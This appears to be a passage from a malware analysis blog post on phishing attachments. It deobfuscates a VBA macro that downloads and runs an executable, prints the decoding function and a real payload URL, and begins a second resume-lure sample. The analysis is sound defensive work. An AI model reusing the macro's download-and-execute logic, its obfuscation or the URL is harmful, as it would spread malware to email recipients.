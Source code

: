 Again, some lovely obfuscation, let's break it out:

        Microsoft.XMLHTTP.Open GET, 
        Microsoft.XMLHTTP.Send
        WScript.ShellProcess(TEMP)
        WScript.ShellProcess(TEMP\monseone.exe)
        
To decode the AddFieldToField function, we have to go elsewhere in the document

        Public Function AddFieldToField(RASTVA_9() As Variant, RASTVA_10 As Integer) As String
         Dim RASTVA500 As String
         RASTVA500 = ""
         Dim RASTVA_8 As Integer
         For RASTVA_8 = LBound(RASTVA_9) To UBound(RASTVA_9)
         RASTVA500 = RASTVA500 & Chr(RASTVA_9(RASTVA_8) - RASTVA_10 - 7000 - 500 - 1000)
         Next RASTVA_8
         AddFieldToField = RASTVA500
        End Function
        
Yep, this doesn't look convulted at all. We know the first parameter is the array `GIGNE` and the second
is 52. The function loops over the array and creates a string by -52 -7000 -500 and -1000 from each byte.

That is 8552 from each. Decoded the array becomes:

        http://149.156.208.41/~s159928/786585d/08g7g6r56r.exe

Bam, we have the payload. When I was researching, this link was still active, so I grabbed a copy.

I uploaded the exe to [VirusTotal](https://www.virustotal.com/en/file/2d198392e831739f7f76ade37c08e66bd9f55e6e6fcc97f60c1a11ce8eef4988/analysis/) which registered it as a common trojan.


# Nelson Spencer

> Hello my name is  Nelson Spencer . <br/>
> My resume is attached for your approval.<br/>
> Sincerely<br/>
> Nelson Spencer<br/>

Attached was a zip file, which I naturally opened to find a single javascript file:
